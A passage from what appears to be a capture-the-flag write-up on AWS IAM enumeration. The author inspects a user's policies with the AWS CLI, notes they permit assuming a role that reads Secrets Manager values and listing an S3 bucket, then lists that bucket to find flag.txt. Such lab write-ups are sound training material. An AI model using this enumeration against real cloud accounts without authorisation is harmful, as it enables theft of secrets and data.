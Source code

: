```sh
        },
        "VersionId": "v1",
        "IsDefaultVersion": true,
        "CreateDate": "2023-09-29T12:44:09+00:00"
    }
}
```

This revealed some interesting information. If I assumed the role, I could retrieve information about all EC2 instances and list all SecretsManager secrets. I could also retrieve information about and get secret values of the `prod/Customers-QUhpZf`.

Now, the final policy - `S3_Access`. I found that it would allow me to list and retrieve contents from the `hl-dev-artifacts` bucket.

```sh
> aws iam get-user-policy --user-name dev01 --policy-name S3_Access
{
    "UserName": "dev01",
    "PolicyName": "S3_Access",
    "PolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Effect": "Allow",
                "Action": [
                    "s3:ListBucket",
                    "s3:GetObject"
                ],
                "Resource": [
                    "arn:aws:s3:::hl-dev-artifacts",
                    "arn:aws:s3:::hl-dev-artifacts/*"
                ]
            }
        ]
    }
}
```

Summing up everything, I found that:

- using the Amazon managed policy, I could access Amazon GuardDuty
- using the customer managed policy, I could assume the role `BackendDev` and using its attached policy, I could list and retrieve information on secrets stored in Secrets Manager
- using the inline policy, I could list and retrieve objects stored in a S3 bucket.

To find the flag, I listed the objects stored in the S3 bucket.

```sh
> aws s3 ls s3://hl-dev-artifacts/
2023-10-01 16:39:53       1235 android-kotlin-extensions-tooling-232.9921.47.pom
2023-10-01 16:39:53     214036 android-project-system-gradle-models-232.9921.47-sources.jar
2023-10-01 16:38:05         32 flag.txt
```
